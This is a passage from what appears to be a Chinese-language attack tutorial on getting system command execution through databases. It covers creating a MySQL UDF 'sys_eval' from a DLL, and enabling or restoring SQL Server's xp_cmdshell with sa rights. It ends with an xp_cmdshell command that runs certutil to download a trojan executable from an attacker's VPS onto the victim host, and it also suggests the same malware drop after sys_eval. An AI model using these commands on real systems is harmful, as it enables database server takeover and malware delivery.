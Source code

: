 写入成功。

![](https://mmbiz.qpic.cn/mmbiz_png/4bw9lT0keH2ibyW5icblcibTtWjAaXSFqmZP4xxdib5u9IyljSRkyxuuEAiauEbVv0GjOaQEfveMV6oOKLoVcHFntsQ/640?wx_fmt=png)

使用 create function 创建自定义函数 sys_eval()：

```
create function sys_eval returns string soname 'udf.all';
```

可用函数在 dll 文件中查看：

![](https://mmbiz.qpic.cn/mmbiz_png/4bw9lT0keH2ibyW5icblcibTtWjAaXSFqmZEOnEECUkQwutcS8dXMPibJ3jnwdf1beMWYHoQHOvW79HvlgnUhiaHmwA/640?wx_fmt=png)

使用 sys_eval()

![](https://mmbiz.qpic.cn/mmbiz_png/4bw9lT0keH2ibyW5icblcibTtWjAaXSFqmZQ8coiczt6AYrZk5QoicHDuRLERLGpCyk1IdSp6BRZEiaib2J0lcYUlficFg/640?wx_fmt=png)

接下来就可以进行 certutil 下马之类的操作了。

enjoy it！

✔ 0x02 SQL Server 的 xp_cmdshell  

----------------------------------

SQL Server 由于有 xp_cmdshell 操作相对简单  

#### 2.1 前提

拥有 sa 权限账户

#### 2.2 开淦

xp_cmdshell 一般默认是关闭的，我们要先把这个模块开启

```
//要先选择master数据库
sp_configure 'show advanced options',1
reconfigure
go
sp_configure 'xp_cmdshell',1
reconfigure
go
```

xp_cmdshell 还有可能被删除，可以尝试恢复

```
exec sp_dropextendedproc 'xp_cmdshell' dbcc addextendedproc("xp_cmdshell","xplog70.dll") OR dbcc addextendedproc("xp_cmdshell","d:\Program Files\Microsoft SQL Server\MSSQL\Binn\xplog70.dll");
```

开启 xp_cmdshell 后就可以通过数据库执行系统命令

```
exec xp_cmdshell 'whoami'
//例：可以使用xp_cmdshell进行下马操作，需要在vps上开一个http服务
exec xp_cmdshell 'certutil.exe -urlcache -split -f http://vps_ip:vps_port/你的马.exe  c:\temp\a.exe';
```
